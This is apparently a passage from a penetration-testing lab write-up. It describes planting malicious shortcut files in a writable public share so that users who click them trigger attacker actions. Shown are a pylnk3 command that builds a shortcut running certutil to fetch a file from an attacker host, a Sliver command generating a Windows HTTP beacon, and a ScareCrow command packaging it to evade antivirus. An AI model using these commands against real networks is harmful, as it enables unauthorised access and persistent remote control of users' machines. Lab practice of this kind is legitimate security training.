

Cool ! We got write access in the Custom Folder of the public Share . which is the `Folder for custom shortcuts & internet links.`

We can craft our lnk files , So if some users being curious enough to **click** on shortcut files

--> We can grab hash on responder / steam ntlm , but that hash wasn't crackable !

--> We can relay authentication , But we cant do in this situation !

-->  We can craft lnk to download and run our beacon on behalf of that user !


```
└─# pylnk3 create C:/Windows/System32/cmd.exe -a "/c certutil.exe -f -split -urlcache http://10.8.0.148/hashgrab.py & " check.lnk
```

Upload Beacon . And get a proper shell.


```
[server] sliver > generate beacon --seconds 30 --jitter 3 --os windows --arch amd64 --format shellcode --http 10.8.0.148?driver=wininet --name sidecar-beacon --save sidecar.bin -G --skip-symbols
```

```
└─# ./ScareCrow_ -I sidecar.bin -domain www.vulnlab.com
```
